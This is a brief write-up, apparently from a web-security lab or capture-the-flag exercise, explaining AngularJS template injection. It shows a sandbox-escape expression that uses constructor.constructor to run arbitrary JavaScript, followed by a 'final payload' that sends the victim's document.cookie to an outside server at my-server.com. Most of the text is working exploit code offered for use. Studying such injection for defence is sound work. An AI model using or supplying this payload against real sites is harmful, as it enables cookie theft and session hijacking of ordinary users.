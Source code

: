 AngularJS allows binding expressions inside double curly braces {{ }}. 
```
{{constructor.constructor("alert(1)")()}}
```

 -   `constructor.constructor` accesses the Function constructor (Function("code")).
 -   It creates a new function: `Function("alert(1)")`, which gets executed.

Final payload:
```
{{constructor.constructor("document.location=`https://my-server.com/?c=`.concat(document.cookie)")()}}
```